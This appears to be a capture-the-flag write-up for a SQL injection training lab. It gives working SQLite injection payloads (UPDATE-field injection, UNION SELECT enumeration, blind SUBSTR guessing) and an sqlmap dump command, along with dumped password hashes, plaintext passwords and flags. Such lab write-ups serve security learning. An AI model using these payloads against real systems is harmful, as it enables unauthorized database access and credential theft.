 # SQL Injection Lab

<details>
   <summary>Introduction to SQL Injection: Part 2</summary>

   
- ``try to put this in email``
```
', nickName='test', email='hacked
```

> the nikname be came ``test`` and email ``hacked``

- ``want to know data base type``

```
', nickName=sqlite_version(), email='
```

> notice that the nikneame became ``3.22.0`` ==> SQLite

- ``SQLite store his tables in sqlite_master we will try to get all tables``

```
', nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'), email='
```

> found two tables ``usertable,secrets``

- ``find name of columns of table``

```
', nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='usertable'), email='
```
``found``

```
CREATE TABLE `usertable` ( `UID` integer primary key,
                           `name` varchar(30) NOT NULL,
                           `profileID` varchar(20) DEFAULT NULL,
                           `salary` int(9) DEFAULT NULL,
                           `passportNr` varchar(20) DEFAULT NULL,
                           `email` varchar(300) DEFAULT NULL,
                           `nickName` varchar(300) DEFAULT NULL,
                           `password` varchar(300) DEFAULT NULL )
```

- ``get usernames and passwords``

```
', nickName=(SELECT group_concat(name,password) FROM usertable), email='
```

> ``And booom``

``found``

```
Francois05842ffb6dc90bef3543dd85ee50dd302f3d1f163de1a76eee073ee97d851937
Michandrec69d171e761fe56711e908515def631856c665dc234a0aa404b32c73bdbc81ac
Coletteb6efdfb0e20a34908c092725db15ae0c3666b3cea558fa74e0667bd91a10a0d3
Phillipbe042a70c99d1c438cdcbd479b955e4fba33faf4f8c494239257e4248bbcf4ff
Ivan6ef110b045cbaa212258f7e5f08ed22216147594464427585871bfab9753ba25
Admin
```

> but here we want the flag so we will see colomns of another tabel ``secrets``

- ``find the flag``

```
', nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='usertable'), email='
```

``found``

```
CREATE TABLE secrets ( id integer primary key,
                       author integer not null,
                       secret text not null )
```

- ``get the flag``

```
', nickName=(SELECT group_concat(secret) FROM secrets), email='
```

``found``

```
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Integer a.,Donec viverra consequat quam,
 ut iaculis mi varius a. Phasellus.,Aliquam vestibulum massa justo, in vulputate velit ultrices ac.
 Donec.,Etiam feugiat elit at nisi pellentesque vulputate. Nunc euismod nulla.,
THM{b3a540515dbd9847c29cffa1bef1edfb}
```



  
</details>




-----------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication</summary>

``write in username``
``
' or 1=1; -- -
``
  
</details>



----------------------------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication-2</summary>

## ``first``

```
' OR 1=1-- -
```

> when logedin you will find the name of user in top right of page and also in cookie
>
> if you want to decode cookie you can use ``https://www.kirsle.net/wizards/flask-session.cgi`` or this script ``decode_cookie.py``
>
> you will find it like this :
> ```
> {
>    "challenge2_user_id": 1,
>    "challenge2_username": "admin"
> }
> ```


### ``now we will use UNION select to know number of columns that query ask for``

``back to login page and write: ``

```
' UNION SELECT NULL-- -
```
``it failed so will try: ``

```
' UNION SELECT NULL, NULL-- -
' UNION SELECT 1, 2-- -
```
``IT work now use``

⚠️⚠️⚠️

<details>
  <summary>found type of database and tabeles,....</summary>

``type of data_base``

```
' UNION SELECT sqlite_version(), NULL-- -
' UNION SELECT @@version, NULL-- -
```

> ``found that it is sqlite``

### `` now find tables in this database``

```
' UNION SELECT 1, group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'-- -
```

> found ``users``

### ``now find name of columns in table``

```
' UNION SELECT 1, sql FROM sqlite_master WHERE name='users' AND type='table'-- -
```

``found:``

```
CREATE TABLE users ( id integer primary key,
                     username text unique not null,
                      password text not null )
```


  
</details>
⚠️⚠️⚠️

> found the name in top right became ``2``


``get all basswords of users``

```
' UNION SELECT 1, group_concat(password) FROM users-- -
```

``found``

```
Logged in as rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM{fb381dfee71ef9c31b93625ad540c9fa},viking123 | 
```
**yapppp!!!**


</details>



-------------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication 3 (Blind Injection)</summary>

### ``first try to know password length``

```
admin' AND length((SELECT password from users WHERE username='admin'))=1-- -
```
> change ``1`` untill login when login then this is password length you can user ``burp``
>
> found it in ``37``


### ``now try go guess every char in the password ``

```
admin' AND SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1) = CAST(X'54' as TEXT)-- -
admin' AND SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1) = a-- -
```
> first ``1`` mean first char in ``password``
>
> second ``1`` mean we use in every time one char
>
> when found first char true change first ``1`` to ``2`` and so on .....

#### ``OR`` YOU can use ``SQLmap``

```
sqlmap -u http://10.10.247.180:5000/challenge3/login \--data="username=admin&password=admin" \--level=5 --risk=3 --dbms=sqlite --technique=B --dump
```
> found this

```
Table: users
[5 entries]
+----+---------------------------------------+----------+
| id | password                              | username |
+----+---------------------------------------+----------+
| 1  | THM{f1f4e0757a09a0b87eeb2f33bca6a5cb} | admin    |
| 3  | asd                                   | amanda   |
| 2  | Summer2019!                           | dev      |
| 5  | 345m3io4hj3                           | emil     |
| 4  | viking123                             | maja     |
+----+---------------------------------------+----------+

```


   
</details>






<details>
   <summary>Vulnerable Startup: Vulnerable Notes</summary>

   
   
</details>



























---
---
---
---



# ``payloads``

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
